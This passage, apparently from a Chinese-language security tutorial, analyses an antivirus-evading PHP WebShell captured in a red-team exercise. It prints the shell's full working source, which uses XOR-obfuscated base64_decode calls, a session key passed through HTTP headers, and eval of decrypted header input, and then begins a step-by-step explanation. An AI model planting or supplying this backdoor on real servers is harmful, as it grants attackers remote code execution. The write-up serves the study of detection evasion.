 ### 12.3 样例三

这个免杀马是在近期某大型攻防演练中捕获到的，也是能过一众查杀引擎~  
这个样例使用了异或 + 编解码转换 + 参数加解密回调 + 密钥协商的手法，成功规避了语义分析和正则匹配式，具有实战意义

这个 WebShell 和冰蝎马等具有相似性，各位师傅不妨可以看看原理：

```bash
<?php
session_start();

function set_token($v,$t) {
    $r="";
    for ($x=0; $x<strlen($v);$x++) {
        if(($x+1)%strlen($t)!=0) {
            $r.=chr(ord(substr($v,$x,$x+1))^ord(substr($t,$x%strlen($t),($x+1) % strlen($t))));
        } else {
            $r.=chr(ord(substr($v,$x,$x+1))^ord(substr($t,$x%strlen($t),16)));
        }
    }
    return $r;
}

if (isset($_SERVER["HTTP_TOKEN"])) {
    $t=substr(md5(rand()),16);
    $_SESSION['token']=$t;
    header('Token:'.$_SESSION['token']);
} else {
    if(!isset($_SESSION['token'])) {
        return;
    }
    $v=$_SERVER['HTTP_X_CSRF_TOKEN'];
    $b='DQHNGW'^'&0;+qc';
    $b.= '_dec'.chr(111).'de';
    $v=$b($v."");

    class E {
        public function __construct($p) {
            $c=('ZSLQWR'^'82?4af')."_d"."eco".chr(108-8)."e";
            $e = $c($p);
            eval(null.$e."");
        }
    }
    @new E(set_token($v, $_SESSION['token']));
}
```

这个 WebShell 要如何执行命令呢？共需要三步，请看我细细分析~

首先，这个函数定义了一个函数 `set_token()` 和一个类 `class E`，但我们不着急看，我们先看 PHP 先执行的部分：

```bash
if (isset($_SERVER["HTTP_TOKEN"])) {
    $t=substr(md5(rand()),16);
    $_SESSION['token']=$t;
    header('Token:'.$_SESSION['token']);
} else {
    if(!isset($_SESSION['token'])) {
        return;
    }
    $v=$_SERVER['HTTP_X_CSRF_TOKEN'];
    $b='DQHNGW'^'&0;+qc';
    $b.= '_dec'.chr(111).'de';
    $v=$b($v."");
}
```
